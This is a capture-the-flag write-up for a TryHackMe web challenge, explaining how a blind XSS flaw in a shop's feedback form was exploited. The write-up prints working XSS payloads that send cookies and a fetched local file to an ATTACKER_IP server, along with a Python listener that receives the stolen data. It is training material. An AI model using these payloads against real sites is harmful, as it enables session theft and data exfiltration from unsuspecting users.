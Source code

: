 ```yaml
---
layout: default
title: "The Sticker Shop | Walkthrough Writeup & Full Explanation"
date: 2024-11-29
banner: "assets/images/sticker.png"
permalink: /writeups/the-sticker-shop
---
```

<br>

# The Sticker Shop 

## Challenge Description

**Task 1**  
The sticker shop is finally online!  
Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

**Objective**:  
Can you read the flag at `http://MACHINE_IP:8080/flag.txt`?

You can find the original challenge at the following link: https://tryhackme.com/room/thestickershop
---

## Table of Contents
- [Walkthrough](#walkthrough)
  - [Initial Exploration](#initial-exploration)
  - [The Feedback Page](#the-feedback-page)
  - [Crafting the Payloads](#crafting-the-payloads)
    - [Initial Test Payload](#initial-test-payload)
    - [Cookie Payload (Unsuccessful)](#cookie-payload-unsuccessful)
    - [Direct File Access (Successful)](#direct-file-access-successful)
- [Decode the Flag](#decode-the-flag)

---


## Walkthrough {#walkthrough}

### Initial Exploration {#initial-exploration}
When I first read the challenge prompt, a few things caught my attention. The mention of hosting everything on the same computer sounded like a major vulnerability waiting to happen, especially if the admin reviews feedback on the same browser. The **hint** in the description felt like a nudge toward something admin-side, like a **Blind XSS**.

1. I visited `http://MACHINE_IP:8080/flag.txt` directly, hoping the flag was accessible.  
   - **Result**: I was greeted with a **401 Unauthorized** error. So, no luck here.

2. I went to the homepage at `http://MACHINE_IP:8080/`.  
   - This was a basic website, nothing fancy. But from here, I navigated to the **Feedback page**.

---

### The Feedback Page {#the-feedback-page}
The feedback page had a simple textbox for entering comments and a message below it:

> "Thanks for your feedback! It will be evaluated shortly by our staff."

At this point, I had a pretty strong suspicion that this was a **Blind XSS** challenge. The wording in both the prompt and the feedback page hinted at admin-side activity:  
- "evaluated shortly"  
- "feedback is important"

I decided to test for Blind XSS by injecting a basic payload into the textbox.

---

### Crafting the Payloads {#crafting-the-payloads}

#### Initial Test Payload {#initial-test-payload}
To confirm whether XSS was possible, I used a simple test payload:

```html
<img src="http://ATTACKER_IP:8000">
```
In order to actually receive this, I first had to start a python simple http server on my machine

```bash
python3 -m http.server 8000
```
soon after I sent the XSS payload requests started floading my terminal:
```bash
MACHINE_IP - - [29/Nov/2024 17:42:25] "GET / HTTP/1.1" 200 -
```
This confirmed it, the machine **is vulnerable to Blind XSS**. Now what was left to do was to get the admin bot to do something useful

#### Cookie Payload (unsuccesfull) {#cookie-payload-unsuccessful}
The first trick on my book was to steal the admin's cookie to gain access to the flag.txt file, to do that I used the following payload:

```html
<img src="invalid-image" onerror="fetch('http://ATTACKER_IP:8000/cookies?cookie=' + document.cookie)">
```
Unfortunately, this did not yield anything usefull, the website probably doesn't have cookies or my payload wan't able to capture it.

```bash
MACHINE_IP - - [29/Nov/2024 17:45:25] code 404, message File not found
MACHINE_IP - - [29/Nov/2024 17:45:25] "GET /cookies?cookie= HTTP/1.1" 404 -
```
#### Direct File Access (succesfull!) {#direct-file-access-successful}
The next thing was to see if I could get the admin to go to the flag.txt file and send its contents back to my http server. To do this a simplehttp does not suffice since it does not support POST requests

Using the following code, I made a better http server to view POST requests too:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')
        print(f"POST data received: {post_data}")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

    def do_GET(self):
        parsed_path = urllib.parse.urlparse(self.path)
        query = urllib.parse.parse_qs(parsed_path.query)
        print(f"GET request received: {query}")

        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

server = HTTPServer(('0.0.0.0', 8000), RequestHandler)
print("Server started on port 8000...")
server.serve_forever()
```
Now all I needed was a new payload, after a lot of tries (and espressos) I finally found a working one:

```html
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(flag => fetch('http://ATTACKER_IP:8000/flag',{method:'POST',body:btoa(flag),mode:'no-cors'})).catch(e => fetch('http://ATTACKER_IP:8000/error',{method:'POST',body:btoa(e.message),mode:'no-cors'}));">
```
Be sure to change ```ATTACKER_IP``` with your openvpn ip, as per the ip fetched, you might be wondering why it is a 127.0.0.1 ip. I found out using other payloads that the "admin" doesn't use the openvpn ip we see (why would it if the file is on his computer?), instead it has a local one, which works way better.

---
### Decode the Flag {#decode-the-flag}
If everything went right, you received a base64 encoded flag, to decode it use a tool like [cyberchef](https://gchq.github.io/CyberChef/).

---

## Final Thoughts

This challenge was like making a perfect espresso: patience, precision, and the right blend of ideas. Blind XSS taught me to adapt to localhost quirks and think creatively about admin-side processing. 

Grazie for reading, and buona fortuna on your next hack! 

